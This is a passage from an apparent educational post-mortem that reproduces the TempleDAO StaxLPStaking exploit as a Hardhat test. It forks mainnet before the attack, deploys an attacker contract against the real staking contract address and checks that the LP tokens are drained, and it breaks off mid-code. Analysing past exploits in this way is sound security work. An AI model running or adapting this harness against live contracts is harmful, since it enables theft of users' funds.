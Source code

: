 # The Hardhat Test

There's a few things we need to do in the test:

1. Get access to an attacker EOA to use to call the `exploit()` function.
2. Get handles to the staking contract, and the actual LP token contract.
    - We already know the address of the staking contract, and we can get the address of the token contract from the staking contract's storage.
3. Deploy our attacker contract, passing in the addresses of the staking and token contracts into the constructor.
4. Call the `exploit()` function.

I'll post the entire code excerpt below. It should be fairly readable, but I'll also explain in detail some parts of the code that might not immediately be understood by someone who hasn't used `hardhat` before:

```ts
import { Contract, Signer } from 'ethers';
import { ethers } from 'hardhat';
import { forkFrom } from './utils/fork';
import { getAbi } from './utils/abi';
import { expect } from 'chai';

describe('TempleDAO Exploit', async () => {
  let attacker: Signer;
  let attackerContract: Contract;
  let stakingContract: Contract;
  let tokenContract: Contract;

  const STAKING_CONTRACT_ADDRESS = '0xd2869042e12a3506100af1d192b5b04d65137941';

  before(async () => {
    // Block number from October 8, 3 days before the attack
    await forkFrom(15700000);

    // Get an attacker EOA that we can use
    [attacker] = await ethers.getSigners();

    // Get the contract ABI and subsquently the deployed contracts for the
    // staking contract as well as the LP token
    const staking_contract_abi = await getAbi(
      'contracts/StaxLPStakingExploit/StaxLPStakingABI.txt',
    );
    const token_contract_abi = await getAbi('contracts/StaxLPStakingExploit/StaxLPTokenABI.txt');

    stakingContract = await ethers.getContractAt(staking_contract_abi, STAKING_CONTRACT_ADDRESS);
    tokenContract = await ethers.getContractAt(
      token_contract_abi,
      await stakingContract.stakingToken(),
    );

    // Deploy the attacker script
    attackerContract = await (
      await ethers.getContractFactory('StaxLPStakingExploit', attacker)
    ).deploy(stakingContract.address, tokenContract.address);
  });

  it('Exploits successfully', async () => {
    // Before we start, we should have 0 LP tokens
    expect(await tokenContract.balanceOf(attacker.getAddress())).to.be.eq(0);

    // Get the current balance of the staking contract so we can make sure we
    // get all the tokens at the end
    const stakingContractBalanceBeforeAttack = await tokenContract.balanceOf(
```
